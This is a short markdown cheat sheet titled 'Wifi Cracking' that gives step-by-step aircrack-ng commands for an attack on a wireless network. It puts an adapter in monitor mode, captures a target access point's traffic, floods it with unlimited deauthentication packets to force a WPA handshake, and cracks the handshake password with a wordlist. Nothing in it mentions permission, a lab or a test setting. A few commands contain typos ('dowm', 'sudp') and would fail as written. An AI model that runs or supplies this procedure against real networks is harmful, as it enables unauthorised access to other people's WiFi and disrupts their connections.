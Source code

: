 ## Wifi Cracking 

### Enable Monitor Mode

#### Using aircrack-ng (airmon-ng)
```bash
sudo airmon-ng start wlan0
```

If some proccesses causing trouble kill them with

```bash
sudo airmon-ng check kill
```

### Listening Traffic

```bash
sudo airodump-ng wlan0mon
```

If airodump-ng not working

```bash
sudo ifconfig wlan0mon dowm
sudp ifconfig wlan0mon up
```

### Listening Target traffic 

```
sudo airodump-ng --bssid ff:ff:ff:ff:ff:ff --channel 2 --write capture wlan0mon
```

**--bssid / MAC Address: ** BSSID / MAC addr of Target 
**--channel: ** specify channel which wifi is on
**--write: ** output capture data in capture.cap file.

simanteously on new tab

### Deauthentication packets sending to target

```bash
sudo aireplay-ng --deauth 0 -a ff:ff:ff:ff:ff:ff wlan0mon
```

On airodump-ng tab, got `WPA Handshake` file close aireplay-ng and airodump-ng tab

Now just to crack the `WPA Handshake` file using wordlists
here we are using aircrack-ng pkg to crack the passwd (capture.cap)

```bash
sudo 
sudo aircrack-ng -b ff:ff:ff:ff:ff:ff -w wordlists.txt capture.cap 
```

If file not cracking passwd then try to use second capture file if its created during capturing `WPA Handshake`
